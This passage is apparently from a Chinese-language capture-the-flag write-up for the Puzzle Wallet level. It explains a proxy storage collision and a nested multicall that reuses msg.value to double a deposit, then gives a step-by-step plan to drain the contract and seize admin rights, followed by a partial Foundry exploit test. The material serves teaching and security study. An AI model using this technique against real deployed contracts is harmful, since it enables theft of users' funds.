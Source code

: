 1.  我们向 `multicall` 发送 0.001 ether。
2.  `multicall` 的第一个调用是 `deposit()`。这会把我们的 `msg.value` (0.001 ether) 存入，并将我们的余额记录为 0.001 ether。
3.  `multicall` 的第二个调用是**对 `multicall` 自身的嵌套调用**。在这个嵌套调用中，我们再次调用 `deposit()`。
4.  由于 `delegatecall` 的特性，`msg.value` 在嵌套调用中保持不变。因此，第二次 `deposit()` 会再次将同一个 `msg.value` (0.001 ether) 存入，使我们的记录余额变为 0.002 ether。

我们只发送了 0.001 ether，但在合约中的存款记录却是 0.002 ether。现在，我们调用 `execute(player, 0.002 ether, "")`，就可以提走合约中所有的资金（我们存入的0.001 + 合约原有的0.001）。

### 最终攻击流程

1.  **成为 `owner`**: 调用 `proxy.proposeNewAdmin(player)`。
2.  **加入白名单**: 调用 `wallet.addToWhitelist(player)`。
3.  **双重存款**: 构造一个嵌套的 `multicall` 调用，发送 0.001 ether，使自己的存款记录变为 0.002 ether。
4.  **清空合约**: 调用 `wallet.execute(player, 0.002 ether, "")` 提走所有资金。
5.  **成为 `admin`**: 调用 `wallet.setMaxBalance(uint256(uint160(player)))`，将 `maxBalance` (即 `admin`) 设置为我们的地址。

## 💻 Foundry 实现

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/24_PuzzleWallet.sol";

contract PuzzleWalletTest is Test {
    PuzzleProxy proxy;
    address player;
    PuzzleWallet wallet;

    function setUp() public {
        player = vm.addr(1);

        // 部署逻辑合约和代理合约
        PuzzleWallet puzzleWallet = new PuzzleWallet();
        bytes memory data = abi.encodeWithSelector(PuzzleWallet.init.selector, 1 ether);
        proxy = new PuzzleProxy(address(this), address(puzzleWallet), data);
        wallet = PuzzleWallet(address(proxy));

        // 初始设置，存入 0.001 ether
        vm.deal(address(this), 0.001 ether);
        wallet.addToWhitelist(address(this));
        wallet.deposit{value: 0.001 ether}();
    }

    function testPuzzleWalletAttack() public {
        vm.deal(player, 0.001 ether);
        vm.startPrank(player);

        // 1. 成为 owner
        proxy.proposeNewAdmin(player);

        // 2. 加入白名单
        wallet.addToWhitelist(player);

        // 3. 构造嵌套 multicall 以实现双重存款
        bytes[] memory nestedCalls = new bytes[](1);
        nestedCalls[0] = abi.encodeWithSelector(PuzzleWallet.deposit.selector);

        bytes[] memory calls = new bytes[](2);
        calls[0] = abi.encodeWithSelector(PuzzleWallet.deposit.selector);
        calls[1] = abi.encodeWithSelector(PuzzleWallet.multicall.selector, nestedCalls);
```